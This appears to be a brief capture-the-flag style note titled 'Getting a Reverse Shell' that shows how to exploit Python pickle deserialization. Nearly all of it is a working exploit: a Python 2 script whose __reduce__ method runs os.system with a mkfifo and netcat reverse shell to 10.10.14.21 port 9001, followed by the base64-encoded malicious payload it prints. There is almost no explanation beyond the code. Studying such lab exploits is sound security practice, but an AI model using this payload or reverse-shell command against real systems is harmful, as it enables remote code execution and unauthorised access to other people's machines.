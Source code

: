 # Getting a Reverse Shell
## Exploiting Pickle
Content of exploit

```python
import pickle
from base64 import urlsafe_b64encode as b64encode

RUNME="""rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 9001 >/tmp/f"""

class Jojo(object):
    def __reduce__(self):
        import os
        return(os.system,(RUNME,))

print b64encode(pickle.dumps(Jojo()))
```
Payload
```bash
$ python2.7 exploit-pickle.py                                                                                                                                                        
Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4yMSA5MDAxID4vdG1wL2YnCnAxCnRwMgpScDMKLg==
```

![[Pasted image 20211127094052.png]]


![[Pasted image 20211127094406.png]]
